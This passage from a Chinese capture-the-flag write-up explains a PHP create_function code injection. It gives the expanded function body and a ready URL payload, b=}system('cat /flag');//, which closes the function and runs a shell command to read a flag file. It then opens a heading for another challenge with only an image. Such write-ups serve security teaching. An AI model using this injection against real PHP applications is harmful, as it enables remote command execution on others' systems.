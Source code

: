 那么对于这个create_function来说，它的展开应该是这样的：

```scss
function niming()
{
}system('cat /flag');//}
```

> 这里参数b中的大括号直接把function闭合了，因此后面的system可以正常进行，且原先的大括号被注释掉了，就不会报错

```
/55_5_55.php?a=\create_function&b=}system('cat /flag');//
```

# [NISACTF 2022]bingdundun~

![image-20250818182213531](./NSSCTF-6.assets/image-20250818182213531.png)
